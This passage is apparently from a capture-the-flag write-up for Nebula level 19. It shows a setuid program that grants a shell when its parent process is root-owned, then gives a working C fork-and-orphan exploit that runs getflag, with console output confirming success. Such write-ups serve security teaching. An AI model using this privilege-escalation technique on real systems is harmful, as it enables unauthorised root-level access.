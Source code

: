   if(stat(buf, &statbuf) == -1) {
    printf("Unable to check parent process\n");
    exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
    /* If root started us, it is ok to start the shell */

    execve("/bin/sh", argv, envp);
    err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
{{< / highlight >}}

So we can get the shell we want if we can run this as root. How can we do that?
This exploits involves a knowledge of Linux forks. Basically if a process
forks and the parent dies, the child will automatically be run under `init`.
This is called [Fork off and die](http://wiki.linuxquestions.org/wiki/Fork_off_and_die). So who does `init` run as?

{{< highlight console >}}
level19@nebula:/tmp/flag19$ ps aux | grep init
root         1  0.0  0.6   3196  1512 ?        Ss   00:32   0:00 /sbin/init
{{< / highlight >}}

In order to make use of this we need to run `flag18` as a forked process and
then kill the parent. The arguments to `flag18` are passed onto the shell
it executes, and thus we can make use of this. I'll write some C code
to fork the `flag18` process to which we will pass the `getflag`. It should
work.

{{< highlight C >}}
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
    int childPID = fork();
    if(childPID >= 0) { // forked
        if(childPID == 0) { // child
            sleep(1);
            setresuid(geteuid(),geteuid(),geteuid());
            char *args[] = {"/bin/sh", "-c", "/bin/getflag", NULL};
            execve("/home/flag19/flag19", args, envp);
        }
    }
    return 0;
}
{{< / highlight >}}

Get the idea? Right, let's taste this pudding

{{< highlight console >}}
level19@nebula:/tmp/flag19$ gcc forkit.c -o forkit
level19@nebula:/tmp/flag19$ ./forkit
level19@nebula:/tmp/flag19$ You have successfully executed getflag on a target account
{{< / highlight >}}
